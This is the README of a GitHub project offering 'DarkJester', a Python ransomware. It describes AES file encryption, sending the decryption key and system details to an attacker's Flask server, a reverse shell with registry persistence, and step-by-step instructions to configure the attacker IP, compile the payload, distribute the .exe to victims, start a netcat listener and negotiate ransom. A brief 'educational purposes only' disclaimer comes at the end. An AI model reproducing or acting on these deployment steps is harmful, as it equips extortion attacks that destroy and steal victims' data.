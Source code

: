 # DarkJester: Ransomware

![GIF](https://github.com/Kuraiyume/DarkJester/blob/main/Art.gif)

**DarkJester** is an advanced ransomware developed in Python, offering a wide range of capabilities that set it apart from typical ransomware. It is highly modular and adaptable, allowing seamless integration of additional features. DarkJester combines destructive ransomware tactics with advanced espionage capabilities, including file encryption, reverse shell mechanisms, and system reconnaissance.

## Features

- **AES-256 Encryption**: Utilizes AES-256 in CBC (Cipher Block Chaining) mode for robust symmetric encryption.
- **Key and System Exfiltration**: Captures the decryption key along with detailed system information, such as OS, processor, architecture, and MAC address, and sends it to a server running Flask.
- **Multithreaded Encryption/Decryption**: The encryption and decryption processes are multithreaded for optimal performance and efficiency. The number of threads is adjustable.
- **Reverse Shell (C2)**: After encryption and exfiltration, DarkJester establishes a reverse shell that connects back to the attacker’s machine. This allows the attacker to remotely access the victim’s device and send ransom notes and decryption scripts if the ransom is paid.
- **Persistence Mechanism**: DarkJester adds itself to the Windows registry to ensure it persists through reboots, keeping the reverse shell active even if the victim shuts down the machine.

## Installation and Setup

### **Client/Victim Side**

1. **Install Dependencies**:
    - Install all the dependencies needed for DarkJester:
      ```bash
      pip3 install -r requirements.txt
      ```

2. **Configure the payload** by modifying the following parameters:
    - Modify the **IP address** of the reverse shell to the attacker's IP.
    - Modify the **server IP** where the system information and decryption key will be sent.

3. **Compile the payload** into an executable file:
    - Modify the `.spec` file to adjust any customizations if necessary.
    - Compile the `.spec` file using PyInstaller:
      ```bash
      pyinstaller darkjester_encryptor_mass.spec
      ```

4. **Locate the compiled file**:
    - After compilation, the `.exe` file will be available in the `dist/` folder.

5. **Distribute the payload**:
   - The `.exe` file can now be distributed to the target machine. It will run without requiring Python to be installed.

6. **Prepare the attacker machine** before executing the payload on the victim's machine.

---

### **Attacker Side**

1. **Install Dependencies** or just the **Flask**:
    - Install all the dependencies or just the Flask library:
      ```bash
      pip3 install -r requirements.txt
      ```
      ```bash
      pip3 install Flask
      ```

2. **Install NetCat** for the Reverse Shell Listener:
    - On Ubuntu/Debian
      ```bash
      apt install netcat
      ```
    - On Fedora
      ```bash
      dnf install nc
      ```
    - On Arch Linux
      ```bash
      pacman -S gnu-netcat
      ```

3. **Setup the Netcat Listener**:
    - Start listening on a specific port for the reverse shell to connect back:
      ```bash
      nc -lnvp <port>
      ```

4. **Run the Flask server**:
    - Ensure the Flask server is set up and running to accept system information and decryption keys:
      ```bash
      python3 server.py
      ```

5. **Wait for connections**, The server should now be ready to handle requests from the victim machine.


## Usage

After both the attacker and victim sides are set up, you can proceed with the following:

1. **Victim Executes Payload**:
    - Once the victim runs the `raw` or `executable` payload, it will encrypt files, exfiltrate data, and establish a reverse shell connection.

2. **Attacker Monitors Connection**:
    - The attacker should monitor the Flask serve and NetCat listener for incoming system information and the reverse shell connection.

3. **Ransom Communication**:
    - The attacker can communicate with the victim through the reverse shell, sending ransom notes or decryption instructions.

## Licence

This tool is provided `as is,` for educational purposes only. The authors and contributors are not responsible for any misuse of this tool. Please adhere to ethical hacking guidelines and obtain proper authorization before using any cybersecurity tools.

## Disclaimer

DarkJester is intended strictly for educational and ethical hacking purposes. It is illegal to use this tool for any malicious activity or unauthorized access to systems. Always ensure you have written permission before testing or using cybersecurity tools on networks or systems that do not belong to you.

## Author

- Kura1yume (A1SBERG)
